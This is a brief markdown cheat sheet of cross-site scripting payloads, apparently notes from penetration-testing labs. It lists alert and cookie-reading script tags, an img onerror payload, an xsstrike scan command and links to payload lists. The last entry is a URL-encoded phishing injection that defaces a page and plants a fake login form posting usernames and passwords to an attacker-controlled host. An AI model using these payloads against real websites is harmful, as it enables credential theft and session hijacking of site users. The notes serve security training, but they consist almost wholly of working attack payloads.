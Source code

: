 # XSS
## Testing for XSS

```javascript
<script>alert(window.origin)</script>
```
```javascript
<script>alert(document.cookie)</script>
```

## DOM XSS
```javascript
<img src="" onerror=alert(document.cookie)>
```
## Automated Discovery
```zsh
python3 xsstrike.py -u "http://<IP:PORT>/<page>.php?<param>=<value>" 
```

## XSS Payloads

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
https://github.com/payloadbox/xss-payload-list

## Phising link that decases webpage and has a credential stealer
http://10.129.108.114/phishing/index.php?url=document.write(%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.16.10:80/index.php%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27)%3Bdocument.getElementById(%27urlform%27).remove()%3B
